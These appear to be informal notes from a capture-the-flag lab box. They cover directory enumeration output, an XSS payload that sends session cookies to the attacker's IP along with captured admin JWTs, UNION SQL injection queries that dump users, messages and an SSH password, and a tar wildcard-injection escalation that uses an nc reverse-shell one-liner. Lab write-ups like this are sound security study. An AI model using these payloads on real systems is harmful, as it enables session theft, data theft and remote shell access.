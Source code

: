 json web token

created account doesnt let upload file

                                                                                   
┌──(kali㉿kali)-[~/Downloads]
└─$ dirsearch -r -u 10.10.215.167

  _|. _ _  _  _  _ _|_    v0.4.1
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 30
Wordlist size: 10877

Output File: /home/kali/.dirsearch/reports/10.10.215.167/_21-07-07_11-06-13.txt

Error Log: /home/kali/.dirsearch/logs/errors-21-07-07_11-06-13.log

Target: http://10.10.215.167/

[11:06:13] Starting: 
[11:06:19] 403 -  555B  - /.htaccess.bak1
[11:06:20] 403 -  555B  - /.ht_wsr.txt
[11:06:20] 403 -  555B  - /.htaccess.orig
[11:06:20] 403 -  555B  - /.htaccess_orig
[11:06:20] 403 -  555B  - /.htaccess_extra
[11:06:20] 403 -  555B  - /.htaccess.save
[11:06:20] 403 -  555B  - /.htaccess_sc
[11:06:20] 403 -  555B  - /.htaccessOLD2
[11:06:20] 403 -  555B  - /.htm
[11:06:20] 403 -  555B  - /.htaccessBAK
[11:06:20] 403 -  555B  - /.htaccessOLD
[11:06:20] 403 -  555B  - /.html
[11:06:20] 403 -  555B  - /.htpasswds
[11:06:20] 403 -  555B  - /.htaccess.sample
[11:06:20] 403 -  555B  - /.htpasswd_test
[11:06:20] 403 -  555B  - /.httr-oauth
[11:06:28] 403 -  392B  - /ADMIN
[11:06:28] 403 -  392B  - /Admin
[11:06:37] 403 -  392B  - /admin
[11:06:38] 403 -  555B  - /admin/.htaccess
[11:06:38] 403 -  392B  - /admin/     (Added to queue)
[11:06:38] 403 -  392B  - /admin/?/login
[11:06:44] 403 -  555B  - /administrator/.htaccess
[11:06:47] 403 -  555B  - /app/.htaccess
[11:07:02] 301 -  179B  - /images  ->  /images/
[11:07:06] 200 -  857B  - /login
[11:07:06] 200 -  857B  - /login/     (Added to queue)
[11:07:09] 302 -   28B  - /messages  ->  /login
[11:07:10] 302 -   28B  - /new  ->  /login
[11:07:18] 200 -   31B  - /robots.txt
[11:07:20] 200 -  667B  - /signup
[11:07:29] Starting: admin/
[11:07:34] 403 -  555B  - /admin/.ht_wsr.txt
[11:07:34] 403 -  555B  - /admin/.htaccess.bak1
[11:07:34] 403 -  555B  - /admin/.htaccess.orig
[11:07:34] 403 -  555B  - /admin/.htaccess.save
[11:07:34] 403 -  555B  - /admin/.htaccess_extra
[11:07:34] 403 -  555B  - /admin/.htaccess.sample
[11:07:34] 403 -  555B  - /admin/.htaccessOLD2
[11:07:34] 403 -  555B  - /admin/.htaccessBAK
[11:07:34] 403 -  555B  - /admin/.htaccess_orig
[11:07:34] 403 -  555B  - /admin/.htaccessOLD
[11:07:34] 403 -  555B  - /admin/.htaccess_sc
[11:07:34] 403 -  555B  - /admin/.html
[11:07:34] 403 -  555B  - /admin/.htm
[11:07:34] 403 -  555B  - /admin/.htpasswd_test
[11:07:34] 403 -  555B  - /admin/.htpasswds
[11:07:34] 403 -  555B  - /admin/.httr-oauth
[11:07:50] 403 -  555B  - /admin/admin/.htaccess
[11:07:58] 403 -  555B  - /admin/administrator/.htaccess
[11:08:01] 403 -  555B  - /admin/app/.htaccess
[11:08:52] Starting: login/
[11:08:58] 403 -  555B  - /login/.ht_wsr.txt
[11:08:58] 403 -  555B  - /login/.htaccess.bak1
[11:08:58] 403 -  555B  - /login/.htaccess.orig
[11:08:58] 403 -  555B  - /login/.htaccess.save
[11:08:58] 403 -  555B  - /login/.htaccess.sample
[11:08:58] 403 -  555B  - /login/.htaccess_extra
[11:08:58] 403 -  555B  - /login/.htaccess_sc
[11:08:58] 403 -  555B  - /login/.htaccess_orig
[11:08:58] 403 -  555B  - /login/.htaccessBAK
[11:08:58] 403 -  555B  - /login/.htm
[11:08:58] 403 -  555B  - /login/.htaccessOLD
[11:08:58] 403 -  555B  - /login/.html
[11:08:58] 403 -  555B  - /login/.htaccessOLD2
[11:08:58] 403 -  555B  - /login/.htpasswd_test
[11:08:58] 403 -  555B  - /login/.htpasswds
[11:08:58] 403 -  555B  - /login/.httr-oauth
[11:09:17] 403 -  555B  - /login/admin/.htaccess
[11:09:25] 403 -  555B  - /login/administrator/.htaccess
[11:09:28] 403 -  555B  - /login/app/.htaccess

Task Completed





cookie stealing 

create post, 



https://github.com/Xyl2k/Cookie-stealer

`<script>document.write("<img src='http://<ip>.fr/c.php?c="+document.cookie+"'></img>");</script>`

<script>new Image().src="http://10.6.65.43/?c="+document.cookie;</script>



python server on 80

report to admin

┌──(kali㉿kali)-[~/Downloads]
└─$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.215.167 - - [07/Jul/2021 11:42:34] "GET /?c=token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VySWQiOjIsInVzZXJuYW1lIjoibWljaGFlbCIsImFkbWluIjp0cnVlLCJpYXQiOjE2MjU2NzI1NTV9.kTGTJVd0H20RwBfX3fnmy89_Bj39D2rUsV74E-vNh4U HTTP/1.1" 200 -
^C
Keyboard interrupt received, exiting.
 
 machine expired , new json token
 ┌──(kali㉿kali)-[~/Downloads]
└─$ sudo python3 -m http.server 80
[sudo] password for kali: 
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.6.65.43 - - [07/Jul/2021 12:52:25] "GET /?c=token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VySWQiOjQsInVzZXJuYW1lIjoic3R1ZGVudCIsImFkbWluIjpmYWxzZSwiaWF0IjoxNjI1Njc2NjgxfQ.Fn73n73xxpSIJlX6c0mWLCB1A-5OUkSuwijR8Zl-8e4 HTTP/1.1" 200 -
10.10.84.75 - - [07/Jul/2021 12:52:46] "GET /?c=token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VySWQiOjIsInVzZXJuYW1lIjoibWljaGFlbCIsImFkbWluIjp0cnVlLCJpYXQiOjE2MjU2NzY3NjV9.-Q_V4PNgUoPZ5wcIC9jRhTGK6DpN0RPCM_RM8SVP9L0 HTTP/1.1" 200 -


 
 {
  "userId": 2,
  "username": "michael",
  "admin": true,
  "iat": 1625672555
}



select * 
from user 
where id=1

union 


http://10.10.84.75/admin?user=0%20union%20select%201,table_name,3,4%20from%20information_schema.tables%20where%20table_schema%20=%20%27marketplace%27

my sql 
8.0.21
db = marketplace
table name = items   items,messages,users
column name = user 1

```sql
SELECT `COLUMN_NAME` 
FROM `INFORMATION_SCHEMA`.`COLUMNS` 
WHERE `TABLE_SCHEMA`='yourdatabasename' 
    AND `TABLE_NAME`='yourtablename';
```

union select 1,2,3,4 from information_schema.columns where table_schema = 'marketplace' and table_name = 'items'

union select 1,group_concat(table_name),3,4 from information_schema.tables where table_schema = database()

union select 1,group_concat(column_name),3,4 from information_schema.columns where table_name = 'users'

id,isAdministrator,password,username


union select 1,group_concat(username),3,4 from marketplace.users

jake,michael,student,system


union select 1,group_concat(password),3,4 from marketplace.users

nothing


union select 1,group_concat(column_name),3,4 from information_schema.columns where table_name = 'messages'

 id,is_read,message_content,user_from,user_to
 
 
 union select 1,group_concat(message_content),3,4 from marketplace.messages
 
 
 User Hello! An automated system has detected your SSH password is too weak and needs to be changed. You have been generated a new temporary password. Your new password is: @b_ENXkGYUCAv3zJ,Thank you for your report. One of our admins will evaluate whether the listing you reported breaks our guidelines and will get back to you via private message. Thanks for using The Marketplace!,Thank you for your report. We have reviewed the listing and found nothing that violates our rules.,Thank you for your report. One of our admins will evaluate whether the listing you reported breaks our guidelines and will get back to you via private message. Thanks for using The Marketplace!,Thank you for your report. We have reviewed the listing and found nothing that violates our rules.,Thank you for your report. One of our admins will evaluate whether the listing you reported breaks our guidelines and will get back to you via private message. Thanks for using The Marketplace!,Thank you for your report. We have reviewed the listing an  
ID: 1  
Is administrator: true

jake,michael,student,system
jake:@b_ENXkGYUCAv3zJ





jake@the-marketplace:~$ cat /opt/backups/backup.sh
#!/bin/bash
echo "Backing up files...";
tar cf /opt/backups/backup.tar *



echo "mkfifo /tmp/lhennp; nc 10.6.65.43 8888 0</tmp/lhennp | /bin/sh >/tmp/lhennp 2>&1; rm /tmp/lhennp" > shell.sh
echo "" > "--checkpoint-action=exec=sh shell.sh"
echo "" > --checkpoint=1

tar cf archive.tar *





```
CONTAINER_ID="$(docker run -d alpine)"  # or existing
TF=$(mktemp)
docker cp file_to_read $CONTAINER_ID:$TF
docker cp $CONTAINER_ID:$TF $TF
cat $TF
```